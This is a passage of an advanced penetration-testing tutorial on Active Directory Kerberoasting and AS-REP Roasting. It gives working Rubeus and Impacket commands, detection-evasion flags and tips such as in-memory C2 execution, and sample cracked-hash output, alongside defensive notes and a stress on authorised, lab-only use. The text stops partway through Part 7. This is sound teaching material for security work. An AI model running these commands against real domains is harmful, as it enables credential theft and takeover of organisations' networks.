






**Level:** Advanced · **Track:** Penetration Testing · **Read time:** 245 min

This is Chapter 4 of the Active Directory attack notebook — Notebook 18. Chapter 1 built the assumed-breach mindset; Chapter 2 taught BloodHound as a way to *see* the domain as a graph; Chapter 3 taught manual enumeration and how to spray a password over Kerberos pre-authentication without touching SMB. This chapter takes the next logical step in the assumed-breach opening: you have a single low-privileged domain foothold — one valid username and password, or sometimes just a list of usernames — and you want *more* credentials, ideally the credentials of a privileged service account, without dropping a payload, without touching LSASS, and without triggering an EDR.

The two attacks in this chapter — **Kerberoasting** and **AS-REP Roasting** — are the answer, and they are the reason experienced operators reach for Kerberos before almost anything else. Both are *offline* password-cracking attacks. You ask a domain controller, over a completely normal, authenticated (or in the AS-REP case, unauthenticated) protocol exchange, for a blob of data that is encrypted with a user's password-derived key. The DC hands it over — that is Kerberos working exactly as designed — and you walk away and crack it on your own hardware, at your own pace, with no further traffic to the domain. There is no lockout risk (you are not guessing against the DC), there is minimal noise (a handful of legitimate-looking ticket requests), and the reward is often a service account that is a member of Domain Admins or has a wildly over-privileged ACL.

The through-line of this chapter is a single mechanism: **Kerberos encrypts certain protocol messages with a key derived directly from a user's password, and hands those messages to any authenticated principal who asks (Kerberoast) or to anyone at all (AS-REP Roast).** Once you understand *which* message, *which* key, and *why* the DC will give it to you, both attacks collapse into the same three moves — request, extract, crack — and every tool in this chapter (Rubeus, GetUserSPNs.py, GetNPUsers.py, hashcat, john) becomes a convenient front-end you can predict, tune, and swap out.

Everything here operates against the authentication backbone of entire organisations. Authorisation is non-negotiable: every command assumes an explicit, written, scoped engagement, or a lab you built yourself (Part 12 shows how). Roasting feels harmless — "I'm only requesting tickets the protocol offers" — but cracked service-account passwords are real credentials to production systems, and a careless roast against a monitored domain will light up a modern SOC. Point every tool at your own domain controller and keep each command inside that boundary.

---

## Part 1: The Assumed-Breach Position — Why Roasting Comes First

Before any protocol detail, fix the *situation* in your mind, because it explains why these attacks are so valuable.

In a modern internal penetration test or red-team engagement, the "assumed breach" starting position gives you one of two things:

1. **A single low-privileged domain account** — a username and password for something like `CORP\jbloggs`, a normal user with no special rights. This is the Kerberoasting starting position.
2. **Just a list of usernames** — harvested from LinkedIn, from an earlier `kerbrute userenum` (Chapter 3), from a leaked spreadsheet, or from anonymous LDAP. No password at all. This is the AS-REP Roasting starting position.

From either of these, roasting lets you attempt to obtain **more** and **better** credentials with an attack that is:

- **Offline** — cracking happens on your machine, so there is no account-lockout risk and no rate limiting.
- **Low-noise** — it uses the Kerberos protocol exactly as designed; the DC sees ordinary ticket requests.
- **Un-privileged** — Kerberoasting needs *any* authenticated domain user (no admin rights); AS-REP Roasting needs *no* credentials at all for vulnerable accounts.
- **High-reward** — service accounts are frequently over-privileged, have non-expiring passwords, and were set with weak passwords years ago and never rotated.

**Pentester landing on a new domain:** Kerberoasting is often the *first* offensive action after enumeration, precisely because it is so cheap and so frequently productive. In many real environments, a single Kerberoast of the whole domain yields at least one crackable service account within minutes.



The rest of this chapter earns every box in that diagram. We start with the protocol, because both attacks are just *the protocol used against itself*.

---

## Part 2: Kerberos From Absolute Zero

You cannot reason about roasting without a working mental model of Kerberos. If Chapter 1's protocol primer is fresh, skim; otherwise, read this in full — the attacks live in specific fields of specific messages.

### 2.1 The cast of characters

Kerberos is a *ticket-based* authentication protocol. Three parties matter:

- **The client (principal)** — a user or a machine account wanting to access something.
- **The KDC (Key Distribution Center)** — runs on every domain controller. It has two logical halves: the **Authentication Service (AS)** and the **Ticket-Granting Service (TGS)**. The KDC knows (a hash of) every principal's password.
- **The service (SPN)** — a network service the client wants to reach: a SQL Server, a web app running under a domain account, a file share, LDAP on the DC itself. Every service the KDC can issue tickets for is identified by a **Service Principal Name**.

The central trick of Kerberos: the KDC and each principal share a secret — a key **derived from the principal's password**. Because both sides can derive the same key, the KDC can hand a principal a blob that only that principal (or the KDC) can read, and vice versa. **This shared, password-derived key is the entire attack surface for roasting.**

### 2.2 The two-step ticket dance

Authentication happens in two round-trips:

1. **AS exchange (get a TGT):** The client proves it knows its own password to the AS and receives a **Ticket-Granting Ticket (TGT)**. The TGT is encrypted with the **krbtgt** account's key (a special KDC account), so only the KDC can read it later. The client cannot read its own TGT — it just holds it.
2. **TGS exchange (get a service ticket):** The client presents its TGT to the TGS and says "I want a ticket for SPN `MSSQLSvc/sql01.corp.local:1433`." The TGS issues a **Ticket-Granting Service ticket (TGS, or "service ticket")**, and — critically — encrypts part of that ticket **with the target service account's password-derived key.**



### 2.3 Where the crackable material lives

Two encryptions in that dance are the whole game:

- In the **AS-REP**, the KDC returns a chunk (the *enc-part* containing the client's session key and timestamps) encrypted with the **client's own password key**. Normally you never see this cleanly, because **pre-authentication** forces the client to prove it knows the password *before* the AS-REP is issued. But if pre-auth is **disabled** for an account, anyone can request an AS-REP for that account and receive that client-key-encrypted blob without proving anything → **AS-REP Roasting**.
- In the **TGS-REP**, the service ticket's *enc-part* is encrypted with the **service account's password key**. Any authenticated user can request a service ticket for any SPN. So any domain user can obtain a blob encrypted with a *service account's* key → **Kerberoasting**.

In both cases you receive ciphertext encrypted with a key derived from a password you do not know. If the password is weak, you brute-force it offline: guess password → derive key → try to decrypt → check for a known plaintext structure. When the decryption "makes sense," you have the password.

**The single most important sentence in this chapter:** *the strength of a roasting attack is exactly the strength of the targeted account's password, because the ciphertext is offline and unlimited-guess.* A 30-character random service password is effectively immune; `Summer2021!` falls in seconds.

---

## Part 3: Encryption Types — RC4 vs AES and Why Attackers Beg for RC4

Kerberos supports several encryption types ("etypes"). Which one the ticket uses hugely affects cracking speed, so this is not academic.

| etype (number) | Name | Key derivation | hashcat mode (Kerberoast) | Relative crack speed |
|---|---|---|---|---|
| 23 (0x17) | RC4-HMAC (`rc4_hmac`) | Plain **NT hash** (MD4 of UTF-16LE password) | 13100 | **Fastest** (single MD4-based key, no salt/iteration) |
| 17 | AES128-CTS-HMAC-SHA1-96 | PBKDF2 (4096 iterations) + salt | 19600 | Slow (KDF is deliberately expensive) |
| 18 | AES256-CTS-HMAC-SHA1-96 | PBKDF2 (4096 iterations) + salt | 19700 | Slowest |

Two consequences drive real tradecraft:

1. **RC4 tickets crack orders of magnitude faster.** The RC4-HMAC key is literally the account's NT hash — no salt, no key-stretching. AES keys go through PBKDF2 with 4096 iterations and a salt derived from the realm + username, so each guess costs thousands of hash operations. On the same GPU you might do billions of RC4 guesses per second but only millions of AES256 guesses per second.
2. **Attackers therefore try to force RC4.** When Rubeus or Impacket requests a service ticket, it can advertise support for *only* RC4 in the TGS-REQ. If the account and domain still permit RC4 (extremely common for legacy reasons), the DC obligingly encrypts the ticket with RC4, handing you the fast-to-crack variant. This is the **RC4 downgrade** and it is the default behaviour of the classic tools.

**Blue team usage:** the single highest-leverage defence against roasting is to **disable RC4** for Kerberos and force AES — it does not stop the attack but it makes cracking dramatically harder, and, as we'll see in Part 11, a lone RC4 (etype 0x17) ticket request in an AES-only environment is a screaming-loud detection signal.

**Red team usage:** if you see AES-only tickets (mode 19700), do not despair — weak passwords still fall, just slower. But re-prioritise: spend your GPU budget on the accounts most likely to be weak (Part 8's triage), and consider whether a downgrade is even possible.

The salt matters for AES john/hashcat runs: for AES etypes the salt is `<REALM><username>` (uppercased realm, case-sensitive sAMAccountName), which is why the tools embed it in the hash string. You do not normally compute this by hand — the tools do — but knowing it exists explains why AES hashes are longer and why you must not mangle the case of the username when you paste them.

---

## Part 4: Kerberoasting — The Mechanics in Detail

Now the first attack, fully.

### 4.1 What makes an account "roastable"

An account is Kerberoastable if and only if it has a **Service Principal Name (SPN)** set on its `servicePrincipalName` attribute **and it is a user account** (machine accounts also have SPNs, but their passwords are 120-character random strings rotated every 30 days — effectively uncrackable, so we ignore them). A user account gets an SPN when an administrator registers a service to run under it, e.g. `setspn -A MSSQLSvc/sql01.corp.local:1433 CORP\svc_sql`.

So the population of interest is: **user objects with a non-empty `servicePrincipalName`.** These are almost always *service accounts* — created to run SQL Server, IIS app pools, scheduled tasks, backup agents. Two properties make them juicy:

- They were often given **weak, human-chosen passwords** ("because a person had to type it into a config once") and set to **"password never expires,"** so a weak password from 2018 is still valid.
- They are frequently **over-privileged** — added to Domain Admins or given dangerous ACLs "to make the app work."

### 4.2 The request, step by step

1. You are any authenticated domain user (you already have a TGT from logging in).
2. You enumerate SPNs via LDAP: `(&(samAccountType=805306368)(servicePrincipalName=*))` — user objects that have an SPN.
3. For a chosen SPN, you send a **TGS-REQ** to the DC asking for a service ticket, advertising RC4 support (downgrade).
4. The DC issues the **TGS-REP**. It does **not** check whether you can actually talk to the service — it just issues the ticket. Part of that ticket is encrypted with the service account's NT hash (RC4) or AES key.
5. You extract the encrypted portion and format it as a hashcat/john string.
6. You crack offline.



### 4.3 The crucial authorization gap

The reason Kerberoasting exists as a *design-level* issue: **the KDC issues a service ticket to any authenticated principal, regardless of whether that principal is authorised to use the service.** Authorisation is meant to happen *at the service* (the SQL Server decides whether jbloggs may connect) when the client presents the ticket. But the attacker never presents the ticket to the service — they take the ticket offline and attack the key. The DC has no way to know the requester will never actually connect. This is why Kerberoasting cannot be "patched" in the traditional sense: it is Kerberos functioning correctly. The mitigations are all about *key strength* (long passwords, AES, gMSAs) and *detection*, never about blocking the request.

---

## Part 5: AS-REP Roasting — The Mechanics in Detail

The second attack targets a *misconfiguration* rather than an inherent design feature.

### 5.1 Pre-authentication, and turning it off

In a normal AS exchange, the client includes **pre-authentication data (PA-ENC-TIMESTAMP)**: a current timestamp encrypted with the client's password key. The KDC decrypts it; if it yields a sane, current timestamp, the KDC is satisfied the client knows the password and issues the AS-REP. This exists precisely to stop offline attacks: without pre-auth, anyone could request an AS-REP for any user and crack the returned blob.

Some accounts have the flag **"Do not require Kerberos preauthentication"** set (`DONT_REQ_PREAUTH`, bit `0x400000` in `userAccountControl`). Reasons this gets set in the real world: old UNIX/Linux Kerberos clients that couldn't do pre-auth, certain appliance integrations, or an admin who ticked a box they didn't understand. When it's set:

- Anyone can send an AS-REQ for that account **with no pre-auth data**.
- The KDC returns an AS-REP whose enc-part is encrypted with **that account's password key**.
- You crack it offline. **No credentials of your own required** — you only need to know (or guess) the username.

### 5.2 The request, step by step



### 5.3 Two flavours of AS-REP Roasting

- **Targeted (misconfig):** You enumerate which accounts have `DONT_REQ_PREAUTH` set (LDAP filter `(userAccountControl:1.2.840.113556.1.4.803:=4194304)`) and roast exactly those. Requires no creds if you can query LDAP anonymously, or one low-priv cred to query LDAP.
- **Blind / spray (no LDAP):** With only a username list and **no** credentials, you can *try* an AS-REP request for each username; accounts with pre-auth disabled will return a roastable AS-REP, everyone else returns `KDC_ERR_PREAUTH_REQUIRED`. GetNPUsers.py does exactly this with `-no-pass -usersfile`. This doubles as **username enumeration**: `KDC_ERR_C_PRINCIPAL_UNKNOWN` means the user doesn't exist, `KDC_ERR_PREAUTH_REQUIRED` means it exists but is protected.

The hashcat mode for AS-REP is **18200** (`$krb5asrep$23$` RC4). AES AS-REP variants exist but are rarer in tooling output; RC4 dominates because DONT_REQ_PREAUTH accounts are usually legacy and RC4-capable.

**Bug bounty angle:** pure AS-REP Roasting rarely appears in web bug-bounty scope, but in the increasingly common **cloud/AD hybrid** and **internal-network** bounty programs (and in any assessment that includes an AD environment), an account with pre-auth disabled is a clean, high-signal finding you can demonstrate without any exploit code — often reportable on its own as a misconfiguration even before you crack anything.

---

## Part 5b: Anatomy of a Roast Hash and the PAC

Before you crack a blob, understand what you're holding. Cracking is faster to reason about — and to troubleshoot — when the hash string isn't a black box.

### 5b.1 Dissecting the Kerberoast hash

A hashcat-13100 Kerberoast line looks like this (broken across labelled pieces):

```
$krb5tgs$23$*svc_sql$CORP.LOCAL$MSSQLSvc/sql01.corp.local:1433*$<checksum>$<enc-part>
   |        |    |        |               |                        |          |
 format   etype name   realm            SPN                    16-byte    encrypted
 tag      (23   sam    (upper)          (target service)       EDATA      ticket blob
          =RC4) account                                        checksum   (what you decrypt)
```

- **`$krb5tgs$`** — the format tag hashcat/john use to route the hash.
- **`23`** — the encryption type. `23`=RC4, `17`=AES128, `18`=AES256. This selects your hashcat mode.
- **`svc_sql` / `CORP.LOCAL` / `MSSQLSvc/...`** — cosmetic metadata (account, realm, SPN) so a human can tell hashes apart; they are *not* part of what's cracked but the tools keep them for readability.
- **checksum + enc-part** — the actual ciphertext. Cracking = for each candidate password, derive the RC4 key (= NT hash = `MD4(UTF-16LE(password))`), decrypt the enc-part, and check whether the embedded ASN.1 structure and checksum validate. When they do, the guessed password is correct.

For **RC4** there is *no salt* — the key is just the NT hash — which is precisely why 13100 runs at billions of guesses/sec. For **AES** (17/18) the string additionally encodes a salt derived from `UPPER(realm)+sAMAccountName`, and the key comes from PBKDF2-HMAC-SHA1 with **4096 iterations**, which is the entire reason AES modes are hundreds of thousands of times slower.

### 5b.2 The AS-REP hash

```
$krb5asrep$23$svc_legacy@CORP.LOCAL:<checksum>$<enc-part>
```

Same idea, different message: the enc-part here is the AS-REP's encrypted section, keyed on `svc_legacy`'s own password. Everything about cracking is identical — pick mode 18200 for RC4.

### 5b.3 The PAC — why service accounts, and why this bleeds into other attacks

Inside every TGT and service ticket is a **Privilege Attribute Certificate (PAC)** — a structure the KDC stamps in containing the user's SID, group memberships, and other authorisation data, signed with the service key and the KDC key. For roasting you don't need to parse the PAC; you're attacking the *encryption key*, not the contents. But two things are worth internalising:

- The PAC is *why* the service ticket's enc-part is keyed to the service account: the service must be able to decrypt and validate the PAC to make authorisation decisions. That same decryptability is what you attack.
- Once you've cracked a service account's password (or its NT hash), you hold everything needed to **forge** tickets for it (a *Silver Ticket* — mint a service ticket with an arbitrary PAC, encrypted with the cracked service key) without ever talking to the KDC again. Kerberoasting is thus frequently the on-ramp to ticket-forgery attacks covered in the next chapter. This is the practical reason a cracked service password is worth far more than "one more login."

### 5b.4 Cross-domain and cross-forest roasting

SPNs are not confined to your own domain. With `-target-domain` (Impacket) or `/domain:` + `/dc:` (Rubeus), you can request service tickets for SPNs registered in a **trusted** domain, provided the trust allows it. In a multi-domain forest, a foothold in a low-value child domain can roast a service account in the parent (or a sibling), turning a weak toehold into forest-wide reach.



**Red team usage:** always enumerate SPNs across every reachable trust, not just your current domain — the crown-jewel service account is often "one domain over," and the trust path makes it reachable from a much weaker starting position.

---

## Part 6: Rubeus From Scratch — The Windows Roasting Toolkit

**What it is:** Rubeus is an open-source C# toolset for raw Kerberos interaction on Windows, maintained under the GhostPack umbrella. Where the built-in Windows tools hide Kerberos behind APIs, Rubeus lets you craft and read tickets directly: request TGTs, request service tickets, roast, pass-the-ticket, overpass-the-hash, and more. For this chapter we care about two commands: `kerberoast` and `asreproast`.

**Why it exists:** the native Windows way to trigger a Kerberoast is clumsy (you force ticket requests via `Add-Type`/`KerberosRequestorSecurityToken` and then scrape them out of the LSA cache with Mimikatz). Rubeus does the request *and* the extraction *and* the hash formatting in one call, from a normal user context, and gives you OPSEC knobs the native path lacks.

**Getting it on your attack host (a Windows box or a beacon):** Rubeus is C# source; you compile it (Visual Studio / `Rubeus.sln`) into `Rubeus.exe`, or use a precompiled build for your engagement. In practice on a red team you often run it in-memory via your C2 (`execute-assembly` in Cobalt Strike, `Invoke-Assembly` in others) so `Rubeus.exe` never touches disk. For a lab, a compiled `Rubeus.exe` on the domain-joined test workstation is fine.

> Rubeus runs **as the current user** and uses the user's existing TGT — you must already be in an authenticated domain-user context (an interactive session or a token you've stolen). It does not take a username/password by default; it uses who you already are. (You *can* feed creds with `/creds:` or a ticket with `/ticket:`.)

### 6.1 Kerberoasting with Rubeus

The core command:

```powershell
Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

That enumerates all user accounts with SPNs in the current domain, requests a service ticket for each, extracts the crackable portion, and writes hashcat-ready strings to `hashes.kerberoast`. Flags you will actually use:

| Flag | What it does | Why you care |
|---|---|---|
| `/outfile:FILE` | Write hashes to a file, one per line | Feed straight to hashcat |
| `/nowrap` | Do not line-wrap the base64/hash blob | **Essential** — wrapped hashes break hashcat parsing |
| `/user:svc_sql` | Roast one specific account | Targeted, low-noise; roast only the juicy one |
| `/spn:MSSQLSvc/sql01.corp.local:1433` | Roast one specific SPN | Even lower noise; no LDAP SPN sweep |
| `/rc4opsec` | Skip AES-enabled accounts, only roast RC4-supporting ones the safe way; uses `tgtdeleg` | OPSEC: avoids the loud "RC4 request for an AES account" signal |
| `/tgtdeleg` | Use the TGT delegation trick to request tickets without your own TGT interaction quirks; forces RC4 via GSS-API | Classic downgrade path on older DCs |
| `/aes` | Request AES tickets (mode 19700) | When you *want* to look normal in an AES-only domain |
| `/stats` | Just show how many roastable accounts exist, no tickets | Recon before you decide to roast |
| `/pwdsetbefore:MM-dd-yyyy` | Only roast accounts whose password was set before a date | Old password = likely weak & un-rotated |
| `/ldapfilter:'...'` | Add an LDAP clause to the SPN search | Target an OU, exclude honeypots |
| `/domain:CORP.LOCAL /dc:dc01.corp.local` | Target a specific domain/DC | Cross-domain / trust roasting |

**Opsec-safe roasting, the modern default:**

```powershell
Rubeus.exe kerberoast /rc4opsec /pwdsetbefore:01-01-2023 /outfile:hashes.kerberoast /nowrap
```

`/rc4opsec` is important. In an environment that has moved to AES, requesting an RC4 ticket for an AES-enabled account is anomalous and detectable (Part 11). `/rc4opsec` uses the `tgtdeleg` trick to enumerate which accounts *actually* still support RC4 and only roasts those, so every request you make looks legitimate. Combined with `/pwdsetbefore:` (old passwords are the weak ones) you roast fewer accounts, more quietly, with a higher hit-rate.

**Sample output (annotated):**

```
[*] Action: Kerberoasting
[*] Using 'tgtdeleg' to request a TGT for the current user
[*] RC4_HMAC will be the requested encryption type
[*] Target Domain          : CORP.LOCAL
[*] Searching for accounts that support RC4_HMAC, no AES

[*] SamAccountName         : svc_sql
[*] DistinguishedName      : CN=svc_sql,OU=Service Accounts,DC=corp,DC=local
[*] ServicePrincipalName   : MSSQLSvc/sql01.corp.local:1433
[*] PwdLastSet             : 3/14/2019 9:02:11 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*svc_sql$CORP.LOCAL$MSSQLSvc/sql01...
                             (single unwrapped line because of /nowrap)
```

Note the goldmine on the recon line: `PwdLastSet : 3/14/2019` — a service password not changed in years is very likely weak. `Supported ETypes : RC4_HMAC_DEFAULT` confirms the fast crack.

### 6.2 AS-REP Roasting with Rubeus

```powershell
Rubeus.exe asreproast /format:hashcat /outfile:asrep.hashes /nowrap
```

By default Rubeus finds accounts with pre-auth disabled (it does the LDAP `userAccountControl` filter for you) and requests an AS-REP for each. Flags:

| Flag | What it does |
|---|---|
| `/user:svc_legacy` | AS-REP roast one account |
| `/format:hashcat` | Output `$krb5asrep$23$...` for hashcat mode 18200 (the other option is `/format:john`) |
| `/nowrap` | Single-line hash (do this) |
| `/domain` / `/dc` | Target domain/DC |
| `/ldapfilter` | Constrain the search |

**Sample output:**

```
[*] Action: AS-REP roasting
[*] Target Domain          : CORP.LOCAL
[*] Searching path 'LDAP://dc01.corp.local/DC=corp,DC=local' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : svc_legacy
[*] DistinguishedName      : CN=svc_legacy,OU=Service Accounts,DC=corp,DC=local
[*] Using domain controller: dc01.corp.local
[*] Hash                   : $krb5asrep$23$svc_legacy@CORP.LOCAL:1f8c...$a3b1...
```

---

## Part 7: Impacket From Scratch — Roasting From a Linux Box With No Domain Join

Rubeus is a Windows tool that runs *as* a logged-in user. Impacket flips both assumptions: it is a **Python** library + script collection that runs from **Linux (Kali)**, needs **no domain join**, and takes credentials **explicitly on the command line**. This is the workhorse when your foothold is a Linux box, a container, or simply your own Kali attack box with network reachability to the DC and one set of creds.

**What it is:** Impacket is a collection of Python classes for working with network protocols — SMB, MSRPC, and crucially the full Kerberos stack. It ships dozens of `example` scripts. Two matter here:

- **`GetUserSPNs.py`** — Kerberoasting.
- **`GetNPUsers.py`** — AS-REP Roasting ("NP" = No Preauth).

**Why it exists:** it lets an operator with just a credential and network access perform AD attacks without ever touching a Windows machine or joining the domain — ideal for the Linux-centric red teamer and for CI/automation.

**Install on Kali:** Impacket is preinstalled on current Kali, exposed as commands like `impacket-GetUserSPNs`. To get the latest from source:

```bash
pipx install impacket        # isolated, recommended
# or:
git clone https://github.com/fortra/impacket && cd impacket && pip install .
```

Verify:

```bash
impacket-GetUserSPNs -h | head
# or, from a source checkout:
python3 examples/GetUserSPNs.py -h
```

A note on **time sync**: Kerberos rejects requests whose clock skew exceeds ~5 minutes. From a non-domain-joined Linux box this bites constantly. Sync to the DC before roasting:

```bash
sudo ntpdate dc01.corp.local        # or: sudo rdate -n <DC-IP>
sudo timedatectl set-ntp false      # stop NTP fighting you mid-engagement
```

If you see `KRB_AP_ERR_SKEW`, your clock is the problem, not your creds.

### 7.1 Kerberoasting with GetUserSPNs.py

Core command (you have a low-priv cred `jbloggs:Password123`):

```bash
impacket-GetUserSPNs corp.local/jbloggs:'Password123' -dc-ip 10.10.10.10 -request -outputfile hashes.kerberoast
```

Breakdown of every part:

| Token | Meaning |
|---|---|
| `corp.local/jbloggs:'Password123'` | `DOMAIN/USER:PASSWORD` — the identity you authenticate as |
| `-dc-ip 10.10.10.10` | IP of the domain controller (KDC). Use this when DNS is unreliable |
| `-request` | Actually **request** the service tickets and output crackable hashes (without it, you only *list* SPN accounts) |
| `-outputfile FILE` | Write hashcat-ready hashes to a file |

Extra flags worth knowing:

| Flag | Purpose |
|---|---|
| `-request-user svc_sql` | Roast a single account (quieter, targeted) |
| `-hashes LM:NT` | Authenticate with an NT hash instead of a password (pass-the-hash) |
| `-k -no-pass` | Use a Kerberos ticket from your `KRB5CCNAME` cache (after `getTGT.py`) instead of a password |
| `-usersfile FILE` | Roast a specific list of SPN accounts |
| `-target-domain child.corp.local` | Roast across a trust into another domain |
| `-save` | Save the raw `.ccache` service tickets to disk too |

**Sample output:**

```
Impacket v0.12.0 - Copyright Fortra, LLC

ServicePrincipalName          Name       MemberOf                                          PasswordLastSet      LastLogon
----------------------------  ---------  ------------------------------------------------  -------------------  -------------------
MSSQLSvc/sql01.corp.local:1433 svc_sql   CN=Domain Admins,CN=Users,DC=corp,DC=local        2019-03-14 09:02:11  2026-11-10 22:41:03
HTTP/web01.corp.local          svc_web                                                     2024-06-01 08:00:00  2026-11-17 08:15:44

[*] Getting TGT for jbloggs
[*] Requesting TGS for MSSQLSvc/sql01.corp.local:1433
$krb5tgs$23$*svc_sql$CORP.LOCAL$MSSQLSvc/sql01.corp.local:1433*$a1b2...<long blob>...9f8e
[*] Requesting TGS for HTTP/web01.corp.local
$krb5tgs$23$*svc_web$CORP.LOCAL$HTTP/web01.corp.local*$c3d4...<long blob>...1a2b
```

Read that `MemberOf` column carefully: **`svc_sql` is in `Domain Admins`.** If you crack it, you own the domain. This is not a contrived example — over-privileged SQL service accounts are one of the most common real-world paths from foothold to DA.

### 7.2 AS-REP Roasting with GetNPUsers.py

Two modes.

**Mode A — you have a low-priv cred, enumerate + roast pre-auth-disabled accounts:**

```bash
impacket-GetNPUsers corp.local/jbloggs:'Password123' -dc-ip 10.10.10.10 -request -format hashcat -outputfile asrep.hashes
```

**Mode B — you have NO creds, only a username list (blind spray + user enum):**

```bash
impacket-GetNPUsers corp.local/ -dc-ip 10.10.10.10 -usersfile users.txt -no-pass -format hashcat -outputfile asrep.hashes
```

Flag breakdown:

| Flag | Meaning |
|---|---|
| `-no-pass` | Do not send a password — for the credential-less blind mode |
| `-usersfile users.txt` | Try each username in the file |
| `-request` | Actually fetch the AS-REP blob (Mode A lists then requests) |
| `-format hashcat` | Output `$krb5asrep$23$...` for mode 18200 (`-format john` for john) |
| `-dc-ip` | KDC address |

**Sample output for the blind spray (Mode B):**

```
Impacket v0.12.0 - Copyright Fortra, LLC

[-] User admin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jbloggs doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc_legacy@CORP.LOCAL:9d1f...<blob>...4e2a
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN (Client not found in Kerberos database)   # 'notauser' — doesn't exist
```

